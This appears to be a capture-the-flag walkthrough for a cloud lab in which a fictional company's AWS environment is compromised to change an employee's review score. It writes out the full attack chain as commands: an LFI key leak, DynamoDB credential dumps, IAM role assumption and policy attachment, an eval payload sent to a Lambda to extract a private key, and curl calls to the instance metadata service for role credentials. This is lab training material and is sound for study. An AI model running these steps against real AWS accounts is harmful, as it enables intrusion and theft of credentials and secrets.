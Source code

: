 Goal: 120875ABAB must improve their review score

1. An employee web app displays review scores. It is hosted in a Docker container on an EC2 instance, but is unknown at this point.
2. The app is vulnerable to an LFI, and allows to retrieve a DynamoDB access key. (*flag 1*). The code of file `app.php` also yields a valuable piece of information: a different message is displayed to employees with a score higher than 5.
3. Using the access key, dump the database using `aws dynamodb scan --table-name GOD_LoginEmployee` to obtain HR credentials. (*flag 2*)
4. With the credentials, log back into the web app to access all employee reviews. This reveals the public documentation file `infrastructure.md` in an S3 bucket containing `GOD_svc_iam`'s access key. (*flag 3*)
5. Using the access key, perform IAM reconnaissance:

```
aws iam list-roles --profile svc_iam
```
The role `GOD_IAM-Manager-Role` can be assumed by `GOD_svc_iam`:
```
"Statement": [
    {
        "Effect": "Allow",
        "Principal": {
            "AWS": "arn:aws:iam::274186580685:user/GOD_svc_iam"
        },
        "Action": "sts:AssumeRole"
    }
]
```

```
aws iam list-role-policies --role-name GOD_IAM-Manager-Role --profile svc_iam
aws iam get-role-policy --role-name GOD_IAM-Manager-Role --policy-name GOD_AttachCustomPolicies --profile svc_iam
```

The role `GOD_IAM-Manager-Role` has the role policy `GOD_AttachCustomPolicies` allowing to attach to a user the managed policies matching the pattern `GOD_Custom*`.

```
aws iam list-policies --profile svc_iam
aws iam get-policy-version --policy-arn arn:aws:iam::274186580685:policy/GOD_CustomDebugEmployeeReview --version-id v1 --profile svc_iam
```

The managed policy `GOD_CustomDebugEmployeeReview` awards privileges to get and invoke a lambda named `GOD_DebugEmployeeApp`.

```
aws sts assume-role --role-arn 'arn:aws:iam::274186580685:role/GOD_IAM-Manager-Role' --role-session-name iam --profile svc_iam
```

Assume the role `GOD_IAM-Manager-Role` to get an access key as the role.

```
aws iam attach-user-policy --user-name GOD_svc_iam --policy-arn arn:aws:iam::274186580685:policy/GOD_CustomDebugEmployeeReview --profile god_iam_manager

```

Using this key, attach the managed policy to `GOD_svc_iam`.

Then, retrieve the Lambda code (*flag 4*):

```
aws lambda get-function --function-name 'GOD_DebugEmployeeApp' --region us-east-1 --profile svc_iam
```

6. The Lambda has the function `get_private_key` which gets the key from Secrets Manager. While not directly accessible, the `DEBUG` command will `eval` the content of `debug_cmd`.

Instead of exfiltrating the key via HTTP, you can leverage slicing to restrict the length of the output like so:
```
aws lambda invoke --function-name 'GOD_DebugEmployeeApp' --payload '{ "command": "DEBUG", "debug_cmd": "get_private_key()[1][0:200]" }' --cli-binary-format raw-in-base64-out --profile svc_iam file1
aws lambda invoke --function-name 'GOD_DebugEmployeeApp' --payload '{ "command": "DEBUG", "debug_cmd": "get_private_key()[1][200:400]" }' --cli-binary-format raw-in-base64-out --profile svc_iam file2
```

The `infrastructure.md` file contains the username and port to use when sshing into the container hosting the employee web app (*flag 5*)

7. Once ssh'd, you can find out you are inside of a container when looking at processes (e.g. apache is PID 1). Then, the file `status.sh` reveals the Instance Metadata Service (IMDS), implying the container is running on an EC2 instance and also the existence of a second container for managers.

While the IMDS endpoint is accessible from the EC2, it can also be reached by the container since the EC2 (the host) routes the traffic.

An EC2 feature allows an instance to be provisioned by a script when created. This script is available in instance user data, available through IMDS:

```
curl http://169.254.169.254/latest/user-data/

#!/bin/bash

# Install dependencies
apt-get update
DEBIAN_FRONTEND=noninteractive apt-get upgrade -y
DEBIAN_FRONTEND=noninteractive apt-get install -y \
    unzip \
    awscli

# Setup docker
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh

# Retrieve source code from bucket
cd /opt
aws s3 cp s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/source.zip /opt/source.zip
unzip source.zip

# Retrieve debug ssh keys (will be used when building containers)
aws secretsmanager get-secret-value --secret-id GOD_EmployeeAppDebugKey --region us-east-1 > employee_app_secrets.json
aws secretsmanager get-secret-value --secret-id GOD_ManagerAppDebugKey  --region us-east-1 > manager_app_secrets.json

# We don't need the source anymore
aws s3 rm s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/source.zip

# Run cleanup script
sh /opt/clean.sh

# Get nginx conf (will be used by the nginx container)
aws s3 cp s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/nginx.conf /opt/nginx.conf

# Start containers
docker compose up --build -d
```

This reveals that the EC2 instance has privileges to interact with resources. At this point, you can either push the AWS CLI into the container to use the EC2's privileges, or simply get the access key of its assumed role to use on your host:

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GOD_Ec2Role
```

Then, get the nginx configuration and the debug key for the manager container:

```
aws s3 cp s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/nginx.conf nginx.conf --profile ec2
aws secretsmanager get-secret-value --secret-id GOD_ManagerAppDebugKey --region us-east-1 --profile ec2 > manager_app_secrets.json
```

The nginx config shows a manager web app accessible at the same IP but from `/manager-reviewing/`. The debug key is another private key to ssh into the manager container from the employee one.

Transfer the key on the employee container or port forward to ssh into the manager container (*flag 6*)

8. Perform reconnaissance on the container. The file `/var/www/html/libs/dynamo.php` contains another set of DynamoDB access key, but with privileges on the tables `GOD_LoginManager` and `GOD_ReviewEmployee`.

9. Remember the goal of improving 120875ABAB's review score. Use yet another `dynamodb scan` command to dump the the manager's credentials. Authenticate into the web app at `/manager-reviewing/` and change 120875ABAB's score to a value higher than 5. Log back into the `/employee-review/` as 120875ABAB (*flag 7*)